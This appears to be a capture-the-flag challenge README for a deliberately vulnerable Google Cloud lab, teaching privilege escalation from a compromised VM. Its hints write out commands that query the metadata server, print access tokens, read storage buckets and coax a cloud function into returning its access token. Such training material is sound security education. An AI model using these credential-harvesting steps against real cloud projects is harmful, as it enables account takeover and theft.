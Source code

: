 # Challenge 4: Invoking answers

## Introduction

You can control a compute instance in the project! Let's find out which permissions this instance has in GCP.  
Your compute instance has a GCP service account assigned to it, allowing it to interact with the GCP APIs.  
Check which service account this instance uses and what this account can do.  
#####
    gcloud auth list

> **Background Info:**  
> Resources such as compute VMs use the Google metadata server endpoint to get an access token for their assigned service account.  
> As you now have access to the compute VM, you could also query the metadata server and retrieve information such as the VMs service account or its access token. For example you can use this endpoint to get information about the VMs service account:  
> #####
>     curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"
> 
> As the compute instance has gcloud installed, using `gcloud auth list` or `gcloud auth print-access-token` is more convenient though.  

The service account of this compute engine is the default compute service account: `<project-nr>-compute@developer.gserviceaccount.com`.  
A very powerful account in GCP! By default, it has the "Editor" role on a GCP project! But before getting too excited ... try using some of your new powers:  
#####
    gcloud compute instances list
"Request had insufficient authentication scopes". That is disappointing.  
You can list your OAuth access scopes with this command:  
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

That last access scope looks promising. The access scope `devstorage.read_only` allows you to read all storage buckets in the project.  

## Your Goal

**Invoke and exploit another resource to find a powerful access token allowing you to gain control over the project**

## Useful commands and tools:
- the compute engine also has gcloud installed
- the compute engine has a script that could be helpful
- `gcloud auth list`
- `gcloud auth print-access-token`
- `gcloud auth print-identity-token`
- [GCP oauth access scopes](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- `gsutil ls gs://<..>`
- `gsutil cat gs://<..>`
- `curl -H "Authorization:Bearer <token>" https://...`
- [Metadata server](https://cloud.google.com/functions/docs/securing/function-identity#access-tokens)

## Hints

<details>
  <summary>Hint 1</summary>

  List all storage buckets in the project. You can run the `gsutil` commands from the compute VM:  
  #####
      gsutil ls 
  There is an additional bucket that you couldn't access before. You can list and read the content on this bucket:
  #####
      gsutil ls gs://cloud-function-bucket-challenge4
  #####
      gsutil cat gs://cloud-function-bucket-challenge4/main.py
  A script on the compute engine can also give you more hints on how to use the new resource you found.

</details>

<details>
  <summary>Hint 2</summary>

  A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. As you have read access to the buckets, you can investigate what this function does.  
  A script in Alice's home directory on the compute VM tells you how to invoke the function.  
  Someone made it return information from the metadata server for debugging purposes...

</details>

<details>
  <summary>Hint 3</summary>
    
  The script on the compute VM invokes the function. You can modify that request and ask the function to return its access token instead of its service account email:
  #####
      curl -s -X POST https://europe-west1-$PROJECT_ID.cloudfunctions.net/monitoring-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

</details>

## First stage of compromise achieved!

When you completed the challenge read [here](../extras/first-stage-compromised.md) what your new access token can do.
